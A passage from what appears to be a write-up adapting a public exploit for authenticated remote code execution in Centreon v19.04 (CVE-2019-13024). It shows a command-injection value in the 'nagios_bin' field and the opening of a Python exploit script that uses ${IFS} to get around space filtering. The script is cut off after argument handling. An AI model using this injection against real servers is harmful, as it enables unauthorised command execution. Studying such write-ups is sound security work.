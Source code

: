 

    "nagios_bin": f'{command}||'



Now I can see the output when I send the second POST. I'll add some
regex to extract the results, as well as some error handling.

The resulting code is:



    #!/usr/bin/python3

    '''
    # Exploit Title: Centreon v19.04 authenticated Remote Code Execution
    # Date: 28/06/2019
    # Exploit Author: Askar (@mohammadaskar2):
    # Modified By: 0xdf
    # CVE : CVE-2019-13024
    # Vendor Homepage: https://www.centreon.com/
    # Version: v19.04
    # Tested on: CentOS 7.6 / PHP 5.4.16
    '''

    import re
    import requests
    import socket
    import sys
    import warnings
    from bs4 import BeautifulSoup

    # turn off BeautifulSoup warnings
    warnings.filterwarnings("ignore", category=UserWarning, module='bs4')

    if len(sys.argv) != 5:
        print(len(sys.argv))
        print("[~] Usage : ./centreon-exploit.py url username password command")
        exit()

    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    command = sys.argv[4].replace(" ", '${IFS}')
